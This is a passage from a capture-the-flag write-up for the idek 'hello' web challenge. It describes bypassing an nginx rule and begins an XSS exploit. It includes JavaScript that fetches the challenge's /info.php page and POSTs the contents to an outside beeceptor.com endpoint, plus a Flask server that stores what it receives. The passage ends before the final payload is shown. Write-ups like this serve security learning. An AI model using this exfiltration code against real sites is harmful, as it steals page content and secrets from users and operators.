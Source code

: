 
![bypass-info-page](/blog/images/2024-08-18-23-15-42.png)


There we go! We bypassed the nginx rule, all there is left is creating an XSS payload
which adheres to the constraints, visits the `/info.php` page and send its content to us
the attacker.


## Exploit - continued

Before we craft the XSS payload, let's first write the JS code which will be injected.
It should look like this:


```js
fetch('http://idek-hello.chal.idek.team:1337/info.php/whatever.php')
  .then(response => response.text())
  .then(data => {
    return fetch('https://qtcbb221a681bbd53187f7c03c5c.free.beeceptor.com/save', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({ content: data })
    });
  })
```

The script is simple enough, we first fetch the info page, with its response captured,
we send it to our hosted server (I used beeceptor to tunnel my localhost) and retrieve the flag.

The server in case you are wondering looks something like this (written in flask):

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/save', methods=['POST'])
def save():
    data = request.json
    content = data.get('content', '')

    # Save the content to a file
    with open('out.html', 'w') as f:
        f.write(content)

    return jsonify({'status': 'success', 'message': 'Content saved!'})

if __name__ == '__main__':
    app.run(port=5000, debug=True)
```


Alright, the last step now, how can we create the XSS payload. Let's review the constraints:
